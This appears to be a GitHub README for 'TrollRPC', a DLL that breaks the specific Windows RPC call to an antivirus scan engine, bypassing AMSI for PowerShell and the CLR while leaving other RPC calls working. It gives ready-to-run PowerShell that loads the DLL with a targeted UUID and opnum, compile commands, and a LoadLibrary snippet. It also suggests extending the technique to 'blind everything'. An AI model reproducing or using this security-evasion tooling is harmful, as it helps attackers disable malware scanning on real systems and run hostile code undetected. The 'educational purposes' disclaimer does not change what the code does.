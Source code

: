 # TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value                   
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
```
#Use Visual Studio Command Prompt to compile first, alternatively, you can use the compiled dll
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








